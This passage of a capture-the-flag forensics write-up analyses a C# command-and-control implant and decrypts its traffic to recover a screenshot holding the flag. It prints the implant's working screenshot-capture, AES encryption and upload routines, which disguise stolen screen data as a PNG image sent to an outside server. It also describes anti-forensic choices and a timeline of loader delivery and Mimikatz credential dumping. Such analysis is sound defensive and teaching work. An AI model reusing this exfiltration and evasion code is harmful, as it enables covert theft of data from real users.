

**`GetScreenshot` — Capturing the Screen**

```csharp
internal static void GetScreenshot(int width = 0, int height = 0, string taskId = null)
{
	try
	{
		if (width == 0 && height == 0)
		{
			width = SystemInformation.get_VirtualScreen().Width;
			height = SystemInformation.get_VirtualScreen().Height;
		}
		if (string.IsNullOrEmpty(taskId))
		{
			taskId = Comms.GetTaskId();
		}
		Bitmap bitmap = new Bitmap(width, height);
		Graphics graphics = Graphics.FromImage(bitmap);
		Size blockRegionSize = new Size(width, height);
		graphics.CopyFromScreen(0, 0, 0, 0, blockRegionSize);
		MemoryStream memoryStream = new MemoryStream();
		bitmap.Save(memoryStream, ImageFormat.Png);
		Comms.Exec(Convert.ToBase64String(memoryStream.ToArray()), null, taskId);
	}
	catch (Exception ex)
	{
		Console.WriteLine("[-] Cannot perform screen capture: " + ex.Message + "\n");
	}
}
```

This function captures the entire screen (across all monitors), saves it as a PNG **entirely in memory** (never touches the disk), and then passes the Base64-encoded PNG bytes to `Comms.Exec`. The in-memory approach is deliberate — no screenshot file is ever written to disk, making forensic recovery harder.

**`Exec` + `Encryption` — Encrypting the Data**

`Exec`

```csharp
public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null)
{
	if (string.IsNullOrEmpty(key))
	{
		key = pKey;
	}
	string cookie = Encryption(key, taskId);
	string text = "";
	text = ((encByte == null) ? Encryption(key, cmd, comp: true) : Encryption(key, null, comp: true, encByte));
	byte[] cmdoutput = Convert.FromBase64String(text);
	byte[] imgData = ImgGen.GetImgData(cmdoutput);
	int num = 0;
	while (num < 5)
	{
		num++;
		try
		{
			GetWebRequest(cookie).UploadData(UrlGen.GenerateUrl(), imgData);
			num = 5;
		}
		catch
		{
		}
	}
}
```

The `Exec` function passes the Base64 screenshot string through the `Encryption` function, which:

`Encrytion`
```csharp
private static string Encryption(string key, string un, bool comp = false, byte[] unByte = null)
{
	byte[] array = null;
	array = ((unByte == null) ? Encoding.UTF8.GetBytes(un) : unByte);
	if (comp)
	{
		array = Compress(array);
	}
	try
	{
		SymmetricAlgorithm symmetricAlgorithm = CreateCam(key, null);
		byte[] second = symmetricAlgorithm.CreateEncryptor().TransformFinalBlock(array, 0, array.Length);
		return Convert.ToBase64String(Combine(symmetricAlgorithm.IV, second));
	}
	catch
	{
		SymmetricAlgorithm symmetricAlgorithm2 = CreateCam(key, null, rij: false);
		byte[] second2 = symmetricAlgorithm2.CreateEncryptor().TransformFinalBlock(array, 0, array.Length);
		return Convert.ToBase64String(Combine(symmetricAlgorithm2.IV, second2));
	}
}
```

1. Converts the string to UTF-8 bytes
2. **Gzip compresses** the bytes (`comp: true`)
3. **AES-256-CBC encrypts** the result using the session key (`NEWKEY`), with a randomly generated IV prepended to the output
4. **Base64 encodes** the whole thing

So the encrypted blob is: `Base64( IV + AES_CBC( Gzip( Base64( PNG_bytes ) ) ) )`

**`GetImgData` — Hiding Inside a Fake PNG**

The encrypted blob is then passed to `GetImgData`, which constructs the final payload:

```csharp
internal static byte[] GetImgData(byte[] cmdoutput)
{
	int num = 1500;
	string s   = _newImgs[new Random().Next(0, _newImgs.Count)];  // Pick a random real PNG
	byte[] png = Convert.FromBase64String(s);
	byte[] pad = Encoding.UTF8.GetBytes(RandomString(num - png.Length));  // Random padding

	byte[] result = new byte[cmdoutput.Length + num];
	Array.Copy(png,       0, result, 0,                      png.Length);
	Array.Copy(pad,       0, result, png.Length,             pad.Length);
	Array.Copy(cmdoutput, 0, result, png.Length + pad.Length, cmdoutput.Length);
	return result;
}
```

The final structure looks like this:

```
┌─────────────────────────────┬─────────────────────────────────────────────┐
│   Real PNG + random padding  │         Encrypted screenshot payload        │
│      (exactly 1500 bytes)    │              (variable length)              │
└─────────────────────────────┴─────────────────────────────────────────────┘
```

The real PNG at the start is chosen randomly from the list stored in the `IMGS` config field we found earlier. Its purpose is to make the network traffic **look like a legitimate image upload** to any content inspection tools. Only someone who knows to skip the first 1500 bytes would find the actual payload.

#### The Full Encryption Chain (Forward)

```
Raw screenshot
	→ PNG encode (in memory)
	→ Base64 encode
	→ Gzip compress
	→ AES-256-CBC encrypt (NEWKEY, random IV prepended)
	→ Base64 encode
	→ Strip outer Base64 back to bytes
	→ Prepend 1500-byte fake PNG + padding
	→ Send over HTTP POST
```

#### Reversing It in CyberChef

Now that I understood the full chain, I could reverse it step by step.

**Why 3000 bytes instead of 1500?**

When extracting the raw hex dump from Wireshark and pasting it into CyberChef, the input is a **hex string** — each raw byte is represented as two hex characters. So 1500 raw bytes becomes 3000 hex characters. CyberChef's "Drop Bytes" operation works on the character count of the current input, not the underlying byte count. Therefore, dropping **3000 characters** of hex string is equivalent to dropping **1500 raw bytes** of the actual payload.



**CyberChef Recipe:**

1. **Drop Bytes** — Start: 0, Length: 3000 (skips the fake PNG + padding)
2. **AES Decrypt** — Mode: CBC, Key: `nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=` (Base64), IV: first 16 bytes of the remaining data (Hex)
3. **Download** the output and save it as a `.gz` file



**Dealing with the Gzip Output**

Opening the `.gz` file, I noticed the Gzip magic bytes (`1f 8b`) did not start at byte 0 — they appeared at **byte 16**. This is because the 16-byte AES IV is still prepended to the decrypted output, which is expected since the `TransformFinalBlock` call in the decryption logic handles the IV as part of the ciphertext structure.



Rather than manually stripping the first 16 bytes, I used **binwalk**, which automatically detects file signatures at any offset and extracts them:




**Final Steps:**

The extracted file was the Gzip-decompressed data, which turned out to be a **Base64-encoded string** — the innermost layer. Loading it into CyberChef and applying **From Base64** → **Render Image** produced the final PNG screenshot.



The screenshot contained the flag.

---

## Final Flag

```
HTB{h0w_c4N_yOU_s3e_p05H_c0mM4nd?}
```

---

## Attack Timeline

The following timeline reconstructs the attacker's actions based on the decrypted traffic, from initial delivery to data exfiltration.

| Stream | Event | Details |
|---|---|---|
| **0** | **Initial Delivery** | Obfuscated PowerShell loader (`vn84.ps1`) delivered over HTTP to the victim |
| **2** | **Payload Download** | Victim downloads encrypted C2 implant (`94974f08-...`) using BITS transfer |
| **3** | **C2 Check-In** | Implant executes, sends first beacon; receives configuration including rotated AES session key (`NEWKEY`) and decoy PNG pool |
| **3** | **Session Established** | Cookie reveals victim fingerprint: hostname, username, architecture, PID |
| **5** | **Module Load #1** | Attacker delivers first post-exploitation module (PE binary) via `loadmodule` command |
| **6–8** | **Reconnaissance Phase** | Multiple encrypted command responses received; session counter increments |
| **16** | **Credential Dumping** | Attacker delivers Mimikatz (`sekurlsa` module) via `loadmodule`; credentials harvested from victim memory |
| **27** | **Screenshot Tasked** | Attacker issues screenshot command; session ID `00036` assigned to the task |
| **28** | **Screenshot Exfiltrated** | Victim sends screenshot back — encoded, compressed, encrypted, and hidden inside a fake PNG — containing the flag |

